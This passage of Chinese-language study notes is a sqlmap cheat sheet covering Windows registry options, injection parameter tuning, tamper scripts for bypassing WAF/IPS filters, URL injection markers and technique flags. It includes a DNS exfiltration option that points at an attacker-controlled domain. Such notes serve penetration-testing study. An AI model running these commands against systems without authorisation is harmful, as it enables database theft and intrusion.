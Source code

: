 #### <font color=red>8. Windows Registory</font>
 win注册表 
```bash
# 前提是有权限
--reg-read  # 读取
--reg-add   # 添加
--reg-del
--reg-key, --reg-value, --reg-data, --reg-type=''    #..键的值等于...
```

​     

#### <font color=red>9. injection</font>
注入
```bash
-p "id,referrer"  指定扫描参数（即存在注入的那个参数），使 --level失效

--skip="name, user-agent"   # 排除指定的扫描参数

--dbms  # 判断数据库类型
--dbms="mysql"   # 指定只用mysql的方法进行注入
--os=''    # 指定系统
--invalid-bignum    /   --invalid-logical   # bignum使用大数使参数值失效id=99999999；  logical 使用布尔判断使取值失效 id=13 AND 18=19

--no-cast  #  榨取数据时，sqlmap将所有结果转换为str，并将空格替换NULL结果
--no-escape # 关闭功能：（当payload中用单引号界定str时，sqlmap使用char()编码逃逸的方法替换str）
--prefix   # 前缀
--suffix   # 后缀    “...?id=1” -p id --prefix"')" --suffix "AND ('abc'='abc"
--tamper="xxxxx, yyyyyy, zzzzzz"   # 混淆脚本(可自定义脚本)，染过应用层过滤，ips，waf    位置:/usr/share/sqlmaptamper

#伪静态注入(全是斜线，使用“*”符号来自定义注射位置) 
sqlmap -u "http://www.xxx.com/123/456*/789" -v 4 

```

​     

#### <font color=red>10. Techniques</font>
技术 
```bash
#默认使用全部技术
B:  Boolean-based bind
E:  Error-based
U:  Union auery-based
S:  Stacked queries (文件系统，操作系统，注册表必须)
T:  Time-based-bind

--time-sec  # 基于时间的注入检测相应延迟时间（默认5s）
--union-cols 6-9  # 默认联合查询1-10列，随--level增大最多支持50列 

--union-char 123  # 联合查询默认使用NULL， 极端情况下NULL可能失败，此时可以手动执行数值 

--dns-domain attacker.com # 攻击者控制了DNS服务器，使用此功能可以提高数据榨取速度

--second-order http://1.1.1.1/a.php  # 在一个页面注入的结果，在另一个页面体现出来
```
